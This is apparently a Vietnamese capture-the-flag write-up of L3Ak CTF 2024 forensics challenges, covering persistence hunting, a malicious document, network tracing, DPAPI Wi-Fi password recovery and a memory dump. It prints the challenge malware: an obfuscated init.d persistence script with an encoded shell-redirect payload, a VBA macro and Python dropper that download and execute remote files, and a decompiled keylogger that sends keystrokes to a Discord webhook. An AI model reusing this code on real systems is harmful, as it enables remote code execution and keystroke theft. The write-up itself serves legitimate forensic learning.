


# L3Ak CTF 2024.
### I. HoldOnTight.


- Chall này cho ta 1 folder như này có vẻ là file hệ thống và ta cần tìm 8 flag khác nhau để có được flag cuối cùng.
- Bài này dụa vào khả năng khổ dâm mà mò thui , mình sử dụng lệnh `grep -r "your text" *` để tìm kiếm các định dạng flag.
- Mình tìm kiếm với đoạn đầu của flag `L3ak` ở dạng base64 là `TDNh` thì mình được 2 flag.
```
$ grep -r "TDNh" *
etc/etc/apt/apt.conf.d/100holdon:#TDNha3s0cDdfSW41NzQxMV81aDMxMX0=
etc/etc/rc.local:## TDNha3tyY19sMGM0bF8wbl9iMDB0fQ==
```

*`FLAG 1: L3ak{4p7_In57411_5h311}`*

*`FlAG 2: L3ak{rc_l0c4l_0n_b00t}`*

- Tiếp đó mình kiếm flag dưới dạng hex cũng được 2 flag tiếp.
```
$ grep -r "4c33616b" *
etc/etc/logrotate.d/rsyslog:                # Regular maintenance script version 4c33616b7b3130675f376834375f35683331317d
etc/etc/update-motd.d/00-header:# echo '4c33616b7b3568336c6c5f30665f3768335f4434797d' | xxd -r -p
```

*`FLAG 3: L3ak{10g_7h47_5h311}`*

*`FLAG 4:L3ak{5h311_0f_7h3_D4y}`*

- Sau đoạn này mình khá bí nhưng mình Bổng chợt nhớ maybe là có flag ngược nên mình thử filter `ka3L` thì quả thật có 1 flag như rứa :Đ .
```
$ grep -r "ka3L" *
etc/etc/data.txt:systemd/system/backdoor.service:User=root #}r3m1T_dn@_3c1vr35{ka3L
etc/etc/systemd/system/backdoor.service:User=root #}r3m1T_dn@_3c1vr35{ka3L
```
*`FLAG 5: L3ak{53rv1c3_@nd_T1m3r}`*

- Đến khúc này thì mình thật sự là bí idea rồi nên là mình đã có 1 quyết định khá khổ dâm là xài `grep -r "{" * > data.txt` , để mò những flag tiếp theo thì mình mò được 2 flag nì.


*`FLAG 6: L3ak{Cr0n5_50_C71ch3}`*

*`FLAG 7: L3ak{5up3r_5h311_u53r}`*
- Đã được 7 flag rồi nên mình tiếp tục mò cái cuối cùng thì mình có thấy 1 đoạn gì đó khá sus vì format của nó y hệt flag.

- Mình vào đường dẫn đó thì được code như này :
```
#!/bin/bash
### BEGIN INIT INFO
# Provides:          mysticportal
# Required-Start:    $network
# Required-Stop:     
# Default-Start:     2 3 4 5
# Default-Stop:      0 1 6
# Short-Description: Starts mysticportal
### END INIT INFO

# Function to intreprt messege from the other side
decode_payload() {
    local ENCHANTED=$1
    local i=5
    local payload=""
    while [ $i -lt ${#ENCHANTED} ]; do
        payload="${payload}${ENCHANTED:$i:1}"
        i=$((i+6))
    done
    echo "$payload"
}

# ENCHANTED strings
ENCHANTED_PATH="MZolj/onNzUtGEMrLmZjjrgprmKwL/xcUclbzQqpeagLsHYcnBeuNkTWiLaduoxKGoLdmsRoNsrdDrjCksD.nFFiksEAYUQhOHsOK"
ENCHANTED_STRING="pfXya/kxqlGbKSPOdikkkUFneWGvk/ATUHObOIgGWaBKYZOsEXWVghZSygL nAIBf-UlMDeiMasOY hwnXE>pbkdm&CJjQK ZULrp/IwnjWdJkTMEePmysevNjfCB/JlMRvtNFdlKciUeGmpMJJxq/AEacj1ApwVV0vQaJr.qQhHU0hmDRa.ihgtX0tsiBd.kawOW6Ekxfl/XwTlz1bRFlJ2XiOHY3ujqyy4QrLBa sQwaF0EQcvD>LpYku&Fyakx1shVgW"

#sJddrLOwQzD3SwoKPavkMSxkXsAXn{CvzIEiaRxQCnkMjFZiSIjBAtkUwvbdPMZbW_udhQT2inbJn_VLZtRbJPTCm0gsJDF0yUiZi7paJvr5giIKI}DScGa

# Decode the ENCHANTED path and script
MYSTICPORTAL_PATH=$(decode_payload "$ENCHANTED_PATH")
MYSTICPORTAL_SCRIPT=$(decode_payload "$ENCHANTED_STRING")

start() {
    echo "Starting mysticportal service..."
    if [ ! -f "$MYSTICPORTAL_PATH" ]; then
        echo "MYSTICPORTAL script not found, recreating..."
        echo "$MYSTICPORTAL_SCRIPT" > "$MYSTICPORTAL_PATH"
        chmod +x "$MYSTICPORTAL_PATH"
    fi
    # Start the MYSTICPORTAL script or service
    "$MYSTICPORTAL_PATH"
}

stop() {
    echo "Stopping MYSTICPORTAL service..."
    # Code to stop the MYSTICPORTAL service
}

case "$1" in
    start)
        start
        ;;
    stop)
        stop
        ;;
    *)
        echo "Usage: /etc/init.d/MYSTICPORTAL {start|stop}"
        exit 1
        ;;
esac

exit 0

```
- Mình hỏi GPT thì cũng hiểu được kha khá là nó sẽ decrypt cái đoạn `ENCHANTED STRINGS` kia nma bên dưới có 1 đoạn mã comment lại có format giống flag nên mình có thay đổi 1 chút như Sau:
```
#!/bin/bash
### BEGIN INIT INFO
# Provides:          mysticportal
# Required-Start:    $network
# Required-Stop:     
# Default-Start:     2 3 4 5
# Default-Stop:      0 1 6
# Short-Description: Starts mysticportal
### END INIT INFO

# Function to intreprt messege from the other side
decode_payload() {
    local ENCHANTED=$1
    local i=5
    local payload=""
    while [ $i -lt ${#ENCHANTED} ]; do
        payload="${payload}${ENCHANTED:$i:1}"
        i=$((i+6))
    done
    echo "$payload"
}

# ENCHANTED strings
ENCHANTED_PATH="MZolj/onNzUtGEMrLmZjjrgprmKwL/xcUclbzQqpeagLsHYcnBeuNkTWiLaduoxKGoLdmsRoNsrdDrjCksD.nFFiksEAYUQhOHsOK"
ENCHANTED_STRING="pfXya/kxqlGbKSPOdikkkUFneWGvk/ATUHObOIgGWaBKYZOsEXWVghZSygL nAIBf-UlMDeiMasOY hwnXE>pbkdm&CJjQK ZULrp/IwnjWdJkTMEePmysevNjfCB/JlMRvtNFdlKciUeGmpMJJxq/AEacj1ApwVV0vQaJr.qQhHU0hmDRa.ihgtX0tsiBd.kawOW6Ekxfl/XwTlz1bRFlJ2XiOHY3ujqyy4QrLBa sQwaF0EQcvD>LpYku&Fyakx1shVgW"

b="sJddrLOwQzD3SwoKPavkMSxkXsAXn{CvzIEiaRxQCnkMjFZiSIjBAtkUwvbdPMZbW_udhQT2inbJn_VLZtRbJPTCm0gsJDF0yUiZi7paJvr5giIKI}DScGa"

# Decode the ENCHANTED path and script
MYSTICPORTAL_PATH=$(decode_payload "$b")
MYSTICPORTAL_SCRIPT=$(decode_payload "$b")
a=$(decode_payload "$b")
echo a
start() {
    echo "Starting mysticportal service..."
    if [ ! -f "$MYSTICPORTAL_PATH" ]; then
        echo "MYSTICPORTAL script not found, recreating..."
        echo "$MYSTICPORTAL_SCRIPT" > "$MYSTICPORTAL_PATH"
        chmod +x "$MYSTICPORTAL_PATH"
    fi
    # Start the MYSTICPORTAL script or service
    "$MYSTICPORTAL_PATH"
}

stop() {
    echo "Stopping MYSTICPORTAL service..."
    # Code to stop the MYSTICPORTAL service
}

case "$1" in
    start)
        start
        ;;
    stop)
        stop
        ;;
    *)
        echo "Usage: /etc/init.d/MYSTICPORTAL {start|stop}"
        exit 1
        ;;
esac

exit 0

```
- Mình chạy nó thì nó hiện ra flag kèm với 1 file có tên trừng với flag ta thu được.
```
$ ./tool.bash start
a
Starting mysticportal service...
MYSTICPORTAL script not found, recreating...
./tool.bash: line 42: L3ak{initd_2_b0075}: command not found
```


*`FLAG 8: L3ak{initd_2_b0075}`*
- Thé là đã đủ 8 flag , mình nc vào server nhập vào 8 flag thì được flag cuối cùng.

*`FLAG : L3AK{C4n7_570p_w0n7_570p_p3rs1s7}`*
### II. The Spy.

- CHall này là dạng memory nên mình xài volatility 3 để cook bài này.

- Mình check pslist thì thấy có rất nhiều process `chrome.exe` và 1 điều nữa mình thấy là có cái `soffice` kia khá lạ nhưng mình tải file history của chrome về mở nó bằng `AutoSpy` để xem có gì hot hongg.

- Thì nó cũng chỉ có đề cập tới việc tải office va điểm đột phá này ở đây.

- Ban đầu mình chả nghĩ gì đến file `.docx` cả cho đến khi mình thấy nó , mình đã nghĩ maybe cs VBA script trong file docx nên mình ngay lập tức dump nó về check macros.
```
Option Explicit

Private Declare PtrSafe Function a1AaQ Lib "urlmon" Alias "URLDownloadToFileA" ( _
    ByVal b1BbQ As LongPtr, _
    ByVal c1CcQ As String, _
    ByVal d1DdQ As String, _
    ByVal e1EeQ As Long, _
    ByVal f1FfQ As LongPtr) As Long

Public Function b1BbR(c1CcR As String) As String
    Dim d1DdR As Integer
    Dim e1EeR As Integer
    Dim f1FfR As String
    
    If Len(c1CcR) = 0 Or Len(c1CcR) Mod 2 <> 0 Then Exit Function
    
    d1DdR = Len(c1CcR)
    
    For e1EeR = 1 To Len(c1CcR)
        If e1EeR Mod 2 <> 0 Then
            f1FfR = f1FfR & Chr$(Val("&H" & Mid$(c1CcR, e1EeR, 2)))
        End If
    Next
    
    b1BbR = f1FfR
End Function

Sub c1CcS()
    Dim d1DdS As String
    Dim e1EeS As String
    Dim f1FfS As String
    Dim g1GgS As String
    Dim h1HhS As Long
    Dim username As String
    
    username = Environ("USERNAME")
    d1DdS = "68747470733n2s2s64726976652r676s6s676p652r636s6q2s66696p652s642s31764573414o44663731647763336267426s723238326o4p546173626p333348532s766965773s7573703q73686172696r67"
    
    e1EeS = j2JjS(d1DdS)
    
    f1FfS = b1BbR(e1EeS)
    
    g1GgS = "C:\Users\" & username & "\AppData\Local\pp.py"
    
    h1HhS = a1AaQ(0, f1FfS, g1GgS, 0, 0)
    
    If h1HhS = 0 Then
        MsgBox "File downloaded successfully.", vbInformation
        ' Run the Python script
        RunPython
    Else
        MsgBox "Failed to download file.", vbExclamation
    End If
End Sub

Function j2JjS(k2KkS As String) As String
    Dim l2LlS As String
    Dim m2MmS As Integer
    For m2MmS = 1 To Len(k2KkS)
        Select Case Asc(Mid(k2KkS, m2MmS, 1))
            Case 65 To 77, 97 To 109
                l2LlS = l2LlS & Chr(Asc(Mid(k2KkS, m2MmS, 1)) + 13)
            Case 78 To 90, 110 To 122
                l2LlS = l2LlS & Chr(Asc(Mid(k2KkS, m2MmS, 1)) - 13)
            Case Else
                l2LlS = l2LlS & Mid(k2KkS, m2MmS, 1)
        End Select
    Next m2MmS
    j2JjS = l2LlS
End Function

Sub RunPython()
    Dim PythonExe As String
    Dim PythonScript As String
    Dim Command As String
    Dim username As String
    
    username = Environ("USERNAME")
    
    PythonExe = "C:\Users\" & username & "\AppData\Local\Microsoft\WindowsApps\python3.exe"
    PythonScript = "C:\Users\" & username & "\AppData\Local\pp.py"
    Command = PythonExe & " " & PythonScript
    
    Shell Command, vbNormalFocus
End Sub

```
- Ta sẽ được đoạn code sau VBA script này khá là dễ hiểu nên ta có thể thấy là nó sẽ tải 1 file nào đó từ URL `68747470733n2s2s64726976652r676s6s676p652r636s6q2s66696p652s642s31764573414o44663731647763336267426s723238326o4p546173626p333348532s766965773s7573703q73686172696r67` nhưng nó đã bị decode bởi `hex` và `ROT13`.

- Dường dẫn sẽ cho ta source của file `pp.py` tuy nhiên mình ban đầu ko biết decode đoạn mã trên nên đã làm cách khác.

- Nó cho ta đường dẫn đến file `pp.py` nên mình đã mở nó bằng notepad để xem như nào.

- Nó là 1 mớ hỗn độn thật sự , sau khúc này mình khá bí cho đến khi xem khi lại source của nó, thì mình kiếm được đường dẫn tải về file gốc của `pp.py`

- Đây là sourec của `pp.py`:
```
import os
import requests

def download_file_from_google_drive(file_id, destination):
    URL = "https://docs.google.com/uc?export=download"

    session = requests.Session()

    response = session.get(URL, params={'id': file_id}, stream=True)
    token = get_confirm_token(response)

    if token:
        params = {'id': file_id, 'confirm': token}
        response = session.get(URL, params=params, stream=True)

    save_response_content(response, destination)

def get_confirm_token(response):
    for key, value in response.cookies.items():
        if key.startswith('download_warning'):
            return value
    return None

def save_response_content(response, destination):
    CHUNK_SIZE = 32768

    with open(destination, "wb") as f:
        for chunk in response.iter_content(CHUNK_SIZE):
            if chunk:
                f.write(chunk)

def hex_to_binary(hex_str):
    return bytes.fromhex(hex_str)

def save_binary_to_file(binary_data, file_path):
    with open(file_path, 'wb') as file:
        file.write(binary_data)

def reverse_hex_conversion(file_path, output_file):
    with open(file_path, 'r') as file:
        hex_content = file.read().strip()
    binary_data = hex_to_binary(hex_content)
    save_binary_to_file(binary_data, output_file)

def run_retrieved_file(file_path):
    os.system(file_path)

if __name__ == "__main__":
    # Download the file and save it as file_hex.txt
    file_id = "1lTEbD37UC7B7tIRoAEQ1YK6niLQHGZt0"
    input_file = "file_hex.txt"
    download_file_from_google_drive(file_id, input_file)
    
    # Convert hex to binary and save it as L3AK.exe
    output_file = "L3AK.exe"  
    reverse_hex_conversion(input_file, output_file)
    
    # Execute the retrieved file
    run_retrieved_file(output_file)
    
    print("File retrieved and executed as L3AK.exe")
```
- source khá là cơ bản và dễ hiểu thì nó sẽ tải 1 file có tên là `file_hex.txt` , mình có sửa lại code ko cho nó thực thi file `L3AK.exe` đó và thu được dữ liệu là file hex của file `L3AK.exe`, decode nó từ hex mình check bằng `Detect it easy` thì biết nó compile bằng python.

- Mình sử dụng `pycdc` để decompile vì web pyc decompile ko xài được, thì được code sau:
```
$ ./pycdc '/mnt/d/FORENSICS/challenge/L3akCTF/The Spy/L3AK.exe_extracted/keylogger.pyc'
# Source Generated with Decompyle++
# File: keylogger.pyc (Python 3.12)

from pynput.keyboard import Listener, Key
from threading import Timer
from dhooks import Webhook
WEBHOOK_URL = 'https://discord.com/api/webhooks/1240207195849883739/IrZDxAPOwxaHyUOZCcqLVQSRhl4FjwaYzaCUJTvEdmf5Y_jKmzxUMuz2jp3UyRnrvfsl'
INTERVAL = 30
hjlkhas = 'aHR0cHM6Ly9kaXNjb3JkLmdnL3Bzd1R0VW5wSkM='

class Keylogger:

    def __init__(self, WB_URL, interval = (30,)):
        self.WB_URL = WB_URL
        self.interval = interval
        self.log = ''
        self.special_keys = {
            Key.esc: '[ESC]',
            Key.backspace: '[BACKSPACE]',
            Key.tab: '\t',
            Key.enter: '\n',
            Key.space: ' ' }
        self.current_keys = set()


    def _send_info(self, log):
        if log != '':
            webhook = Webhook(self.WB_URL)
            webhook.send(log)
            return None


    def _key_down(self, key):
Unsupported opcode: COPY
        pass
    # WARNING: Decompyle incomplete


    def _key_up(self, key):
        if key in self.current_keys:
            self.current_keys.remove(key)
            return None


    def _report(self):
        self._send_info(self.log)
        self.log = ''
        Timer(self.interval, self._report).start()


    def run(self):
Unsupported opcode: BEFORE_WITH
        self._report()
    # WARNING: Decompyle incomplete


if __name__ == '__main__':
    Keylogger(WEBHOOK_URL, INTERVAL).run()
    return None
```
- Ta có thể thấy 1 đoạn base64 `aHR0cHM6Ly9kaXNjb3JkLmdnL3Bzd1R0VW5wSkM=` decode nó ra thì được 1 link discord `https://discord.gg/pswTtUnpJC` vào link discord thì có flag :Đ.


*`FLAG: L3AK{D1sc0rd_WebH00ks_4re_C001}`*

### III. Do It Dynamically.

- Chall này cho mình 1 file exe , check no bằng  `VirusTotal` thì thấy nó có thực hiện ping đến 1 port nào đó.

- Capture bằng wireshark thì thấy nó cũng ping tới `10.0.0.6`.

- Để chạy con này thì ta cần thay đổi địa chỉ ip thành `10.0.0.6` và chạy nó lại 1 lần .
```
Network Ethernet Settings -> Change adaptor options -> Ethernet -> Properties -> Internet
Protocol Version 4 (TCP/IPv4) -> Properties
```

- Thay đổi ip xong khi ta chạy 1 lần nữa thì nó gửi ta 1 file `fake_flag.txt`


- Khi xem lại wireshark 1 lần nữa thì thấy nó cố gắng kết nối tới port `1234` nhưng mà bị fail.

- Thế thì ta kết nối với port `1234`.


- Trả lời câu hỏi đúng nó sẽ cho ta 1 cái hint là hãy connect tới port `1337`.

- Khi connect thì ta có lun flag.


*`FLAG: L3AK{L34rN_2_L1573N_2_6H0575}`*

### IV. AiR

- Chall này cho mình 1 folder của ổ C và ta cần tìm password wifi , sau kha khá thời gian research thì mình biết mật khẩu đó bị mã hóa trong file `C:\ProgramData\Microsoft\Wlansvc\Profiles\Interfaces[Interface Guid]`, ta đã biết được file đó rồi việc còn lại là ta cần cách để decrypt nó thì mình có mấy cái blog sau :
    + [post 1](https://answers.microsoft.com/en-us/windows/forum/all/where-are-the-passwords-of-my-wi-fi-networks-saved/5170ec32-92f9-4187-813f-478e7d6dba76)
    + [post 2](https://superuser.com/questions/1433261/how-does-windows-7-8-10-store-and-protect-wifi-password)
    + [post 3](https://www.passcape.com/index.php?section=docsys&cmd=details&id=28)
- Nhưng về cơ bản, khóa chính của Người dùng được tạo và mã hóa bằng mật khẩu của người dùng, đồng thời được lưu trữ trong `%APPDATA%/Microsoft/Protect/` trong khi khóa chính của Hệ thống được lưu trữ trong `%WINDIR%/System32/Microsoft/Protect` và được sử dụng để giải mã các đốm màu DPAPI , được bảo vệ bằng tài khoản hệ thống cục bộ. Tất cả các đốm màu DPAPI được tạo bằng cờ `CRYPTPROTECT_LOCAL_MACHINE` được đặt trong chức năng `CryptProtectData` đều được bảo vệ bằng các khóa chính của Hệ thống.

- Do đó, bằng cách sử dụng Nirsoft [DataProtectionDecryptor](https://www.nirsoft.net/utils/dpapi_data_decryptor.html), chúng ta có thể giải mã mọi dữ liệu DPAPI được lưu trữ trên ổ đĩa ngoài bằng cách lấy các đốm màu DPAPI trong Protect và các registry hives (SYSTEM and SECURITY). Tại sao lại là SYSTEM và SECURITY hive ? Vì các khóa chính của Hệ thống không được bảo vệ bằng bất kỳ mật khẩu người dùng nào nên nó được bảo mật bằng Bí mật DPAPI_SYSTEM LSA được lưu trữ trong sổ đăng ký trong `HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets`. Bí mật này được mã hóa bằng LsaKey có nguồn gốc từ BootKey (hoặc SysKey) được lưu trữ trong Windows SYSTEM registry hive.


*`FLAG: L3AK{BL0b_D3crypt1n9_1s_n0_n3w_t0_u_r1ght?}`*

### V. Pixelated

- Chall này chô ta 1 file memnory , xài pslist thì mình thấy nó có tiến trình `mspaint` .
```
Volatility 3 Framework 2.7.0
Progress:  100.00               PDB scanning finished                        
PID     PPID    ImageFileName   Offset(V)       Threads Handles SessionId       Wow64   CreateTime      ExitTime        Audit   Cmd     Path

---SNIP---

*** 5580        4280    mspaint.exe     0xdb0861a2d080  5       -       1       False   2024-05-01 11:41:39.000000      N/A     \Device\HarddiskVolume1\Windows\System32\mspaint.exe    "C:\Windows\system32\mspaint.exe"        C:\Windows\system32\mspaint.exe
*** 6644        4280    VBoxTray.exe    0xdb08615b1080  11      -       1       False   2024-05-01 08:50:27.000000      N/A     \Device\HarddiskVolume1\Windows\System32\VBoxTray.exe   "C:\Windows\System32\VBoxTray.exe"       C:\Windows\System32\VBoxTray.exe
* 868   652     fontdrvhost.ex  0xdb086003b140  5       -       1       False   2024-05-01 08:50:09.000000      N/A     \Device\HarddiskVolume1\Windows\System32\fontdrvhost.exe        "fontdrvhost.exe"        C:\Windows\system32\fontdrvhost.exe
* 548   652     dwm.exe 0xdb086020c080  21      -       1       False   2024-05-01 08:50:09.000000      N/A     \Device\HarddiskVolume1\Windows\System32\dwm.exe        "dwm.exe"       C:\Windows\system32\dwm.exe
```
- dump tiến trình đó về sử dụng `GIMP` ta có thể cover lại ảnh .


*`FLAG: L3AK{p1x3l_p3rfect!}`*